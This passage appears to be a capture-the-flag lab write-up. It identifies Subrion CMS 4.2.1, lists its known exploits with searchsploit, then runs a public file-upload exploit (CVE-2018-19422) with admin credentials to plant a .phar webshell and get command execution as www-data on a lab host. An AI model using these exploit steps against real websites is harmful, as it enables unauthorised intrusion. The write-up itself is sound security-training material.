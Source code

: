 We also have the CMS version now, which is `Subrion CMS v4.2.1`:

<p align="center"><img src="files/version.png"></p>

## Exploit

At this point, we have creds and we have the version of the CMS. Let's check if we can find any exploits for it. We can use `searchsploit` or google:

~~~
└─$ searchsploit subrion CMS 4.2.1
----------------------------------------------------------------- -----------------------
 Exploit Title                                                   |  Path
----------------------------------------------------------------- -----------------------
Subrion CMS 4.2.1 - 'avatar[path]' XSS                           | php/webapps/49346.txt
Subrion CMS 4.2.1 - Arbitrary File Upload                        | php/webapps/49876.py
Subrion CMS 4.2.1 - Cross Site Request Forgery (CSRF) (Add Amin) | php/webapps/50737.txt
Subrion CMS 4.2.1 - Cross-Site Scripting                         | php/webapps/45150.txt
----------------------------------------------------------------- -----------------------
Shellcodes: No Results
~~~

So there are a few ones, but the "Arbitrary File Upload" one might be the useful one in our case. The exploit has an EDB-ID of `49876` and you can get it [here](https://www.exploit-db.com/exploits/49876).

This exploit uses `CVE-2018-19422` and it's very useful, because it uploads a webshell and makes our job easier.

### RCE

After checking the exploit code, we can run it and see if it works:

~~~
└─$ python3 AFU_RCE.py -u http://$IP:80/subrion/panel/ -l 'admin' -p '[REDACTED]'
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://10.10.35.110:80/subrion/panel/
[+] Success!
[+] Got CSRF token: blhtitZ8kL7Q1Hkej2gEN75FeUJ8apOYapAHpDL5
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: yqyoxhatvybssyh

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://10.10.35.110:80/subrion/panel/uploads/yqyoxhatvybssyh.phar 

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~
